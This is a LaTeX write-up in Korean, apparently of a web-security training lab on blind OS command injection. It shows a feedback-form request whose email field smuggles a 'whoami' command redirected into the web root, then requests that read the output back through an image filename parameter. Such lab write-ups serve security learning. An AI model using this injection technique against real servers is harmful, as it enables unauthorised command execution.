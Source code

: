 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
    \begin{lstlisting}[label={lst:blind-original-request},caption={원본 요청 (original request)}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=potato%40potato.com&subject=potato&message=afsdfsdfsd
    \end{lstlisting}

    \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=||whoami>/var/www/images/output.txt||&subject=potato&message=afsdfsdfsd
    \end{lstlisting}
    이떄 \texttt{>} 연산자는 리다이렉션 연산자이며, \texttt{whoami} 명령의 출력을 \texttt{/var/www/images/output.txt} 파일로 리다이렉트합니다.
    \item 수정된 요청을 서버로 전송합니다. 이떄 전송의 성공 여부는 \texttt{Thank you for submitting feedback!} 메시지로 확인할 수 있습니다.
    \item 파일을 출력하기 위해서 filename 파라미터에 접근해야 하므로, 상품 페이지로 이동합니다.
    \item 이후 filename 파라미터에 \texttt{output.txt}를 지정하여 \texttt{/var/www/images/output.txt} 파일을 불러옵니다.

    \begin{lstlisting}[label={lst:modified-request},caption={원본 요청 (original request)}]
    GET /image?filename=36.jpg HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}
    \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
    GET /image?filename=output.txt HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}

    \newpage
    \item 최종 결과를 아래처럼 확인할 수 있습니다.
    \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure6.png}
      \caption{문제3의 결과}
      \label{fig:whoami-result-2}
      \end{figure}


\end{enumerate}
\end{description}
\end{document}
